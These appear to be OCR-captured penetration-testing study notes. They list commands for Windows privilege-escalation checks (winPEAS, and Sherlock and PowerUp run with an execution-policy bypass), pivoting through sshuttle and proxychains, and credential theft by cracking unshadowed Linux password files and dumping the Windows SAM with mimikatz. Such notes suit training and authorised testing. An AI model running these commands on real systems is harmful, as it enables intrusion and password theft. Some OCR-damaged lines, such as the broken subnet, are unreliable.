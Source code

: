 **Auxiliary:
1: .\winpeasany.exe log
2: Sherlock.ps1**
a: powershell.exe -nop -exec bypass
b: Import-Module sherlock.ps1
c: Find-AllVulns | Out-File-Encoding ASCII check.txt
**3: PowerUp.ps1**
a: powershell.exe -nop -exec bypass

# Windows

2021 年 8 月 2 日 22:25

Privilege Escalation Page 69


a: powershell.exe -nop -exec bypass
b: Import-Module PowerUp.ps1
c: Invoke-AllChecks | Out-File-Encoding ASCII checks.txt

Privilege Escalation Page 70




# Pivot

**1: sshuttle**
sshuttle -r victim@10.10.10.10 10 .1 0. 1 0. 1 / 24

**2: Proxychains**
a: gedit /etc/proxychains4.conf
b: socks4 127.0.0.1 9050
c: comment out proxy_dns
d: Only use **TCP**
e: **- Pn** added to **nmap command**
f: proxychains nmap 10.10.10.10 80




# Extract Credential

**1: shadow and passwd**
unshadow passwd shadow
john --wordlist=rockyou.txt --format=sha512crypt unshadowed.txt

**2: SAM**
a: .\mimikatz.exe
b: privilege::debug
c: token::elevate
d: lsadump::sam
e: john --wordlist=rockyou.txt hash.txt --format=NT

